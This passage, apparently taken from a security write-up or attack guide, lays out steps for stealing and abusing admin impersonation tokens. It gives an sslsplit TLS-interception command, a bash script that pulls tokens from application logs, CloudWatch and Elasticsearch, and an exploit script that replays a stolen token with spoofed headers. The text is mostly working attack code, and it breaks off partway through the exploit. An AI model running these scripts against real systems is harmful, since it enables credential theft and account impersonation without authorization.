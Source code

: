 ```bash
  -S /tmp/sslsplit/sslsplit.log \
  -k ca.key -c ca.crt \
  ssl 0.0.0.0 8443 tcp 0.0.0.0 8080
```

**Step 2: Monitor Application Logs for Token Exposure**
```bash
#!/bin/bash
# log_monitoring.sh - Extract impersonation tokens from logs

# If admin logs are accessible (misconfigured S3, shared logging server)
echo "[+] Monitoring application logs for impersonation tokens..."

# Watch real-time logs
tail -f /var/log/app/backend.log | grep -E 'impersonation|token' &

# Search historical logs
find /var/log -name "*.log" -type f -exec grep -H "impersonation" {} \; | \
  grep -oE '[a-f0-9]{8}-[a-f0-9]{4}-[a-f0-9]{4}-[a-f0-9]{4}-[a-f0-9]{12}\.[a-zA-Z0-9_-]{40,}' \
  > found_tokens.txt

# CloudWatch Logs (if AWS)
aws logs tail /aws/lambda/backend --follow --format short | \
  grep -i "impersonation" | \
  grep -oE 'token":\s*"[^"]+' > cloudwatch_tokens.txt

# Check Elasticsearch/Kibana logs
curl -s -X GET "http://elasticsearch:9200/logs-*/_search" \
  -H "Content-Type: application/json" \
  -d '{
    "query": {
      "match": {
        "message": "impersonation"
      }
    },
    "size": 1000
  }' | jq -r '.hits.hits[]._source.message' | \
  grep -oE 'token.*[a-f0-9-]{36}\.[a-zA-Z0-9_-]+' > elk_tokens.txt
```

**Step 3: Exploit Impersonation Token**
```bash
#!/bin/bash
# impersonation_exploit.sh

STOLEN_TOKEN="a1b2c3d4-e5f6-7890-abcd-ef1234567890.aBcDeFgHiJkLmNoPqRsTuVwXyZ123456"
TARGET_API="https://api.example.com"
ATTACKER_IP="203.0.113.50"

echo "[+] Testing stolen impersonation token..."
echo "[+] Token: ${STOLEN_TOKEN:0:20}..."

# Step 1: Exchange impersonation token for access token
echo "[+] Exchanging impersonation token for access..."
EXCHANGE_RESPONSE=$(curl -s -X POST \
  "${TARGET_API}/api/impersonation/exchange" \
  -H "x-admin-impersonation-token: ${STOLEN_TOKEN}" \
  -H "X-Forwarded-For: 192.168.1.100" \
  -H "User-Agent: Mozilla/5.0 (Admin Workstation)" \
  -H "Content-Type: application/json")

echo "Exchange response: ${EXCHANGE_RESPONSE}"

# Extract new access token for impersonated user
```